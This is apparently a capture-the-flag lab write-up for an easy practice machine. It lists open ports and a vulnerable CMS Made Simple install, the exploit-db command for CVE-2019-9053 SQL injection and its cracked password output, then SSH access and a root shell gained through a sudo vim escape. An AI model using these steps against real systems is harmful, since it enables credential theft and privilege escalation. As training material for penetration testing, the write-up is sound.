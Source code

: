 # Easy CTF
- IP: 10.10.177.101

## Open Ports
```
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  ssh
```

## Directories (80/tcp)
- `/robots.txt`
- `/simple/` -> CMS Made Simple 2.2.8

## CMS Made Simple 2.2.8
- `searchsploit cms made simple 2.2`
  - `CMS Made Simple < 2.2.10 - SQL Injection              | php/webapps/46635.py`
  - `CVE-2019-9053`
  - `python /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.177.101/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt`
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## SSH
- `ssh mitch$IP -p 2222`
- User flag: `cat user.txt
- Other user: `sunbath`

- `./linpeas.sh | tee linlog.txt` -> (root) NOPASSWD: /usr/bin/vim
- or `sudo -l` -> (root) NOPASSWD: /usr/bin/vim

## Privilege Escalation
- `sudo vim random`
- `:!sh`
- `whoami` -> root

- `cd /root`
- `cat root.txt` -> W3ll d0n3. You made it!

SOLVED
